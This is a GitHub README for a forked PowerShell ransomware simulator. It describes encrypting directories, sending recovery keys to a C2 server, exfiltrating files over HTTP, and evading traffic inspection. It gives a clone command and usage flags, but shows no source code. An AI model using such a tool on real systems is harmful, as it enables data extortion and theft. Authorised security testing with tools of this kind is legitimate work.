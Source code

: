 <p align="center"><img width=750 alt="Farewell Ransom" src="https://github.com/BZHack/Farewell-Ransom/blob/main/Demo/RUCyberArmy.jpg"></p>

# Farewell Ransom
**Farewell Ransom** is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP. 

It's a fork of the great work of JoelGMSec https://github.com/JoelGMSec/PSRansom

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/BZHack/Farewell-Ransom
```


# Usage
```
.\frsm.ps1 -h

   ##################
   ##################
   ##################
                                                              
   "  ----------------- by @RUCyberArmy ----------------  "

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\frsm.ps1.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Usage safe: .\frsm.ps1 -se Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -de Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Extra parameter: -full , to change wallpaper and show a pop-up         


 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files

```

### The detailed guide of use can be found at the following link:

TBD


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

BZHack just forked it !


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find us on Twitter as [@asso_bzhack](https://twitter.com/asso_bzhack) and on my blog [bzhack.bzh](https://www.bzhack.bzh/).

# TO DO

- Make encryption between client en C2Server
- Add better handle of exfill
- Add control on decrypt to make sure all files are recovered before erasing encrypted source (this is not an issue if you use the proper recovery key)
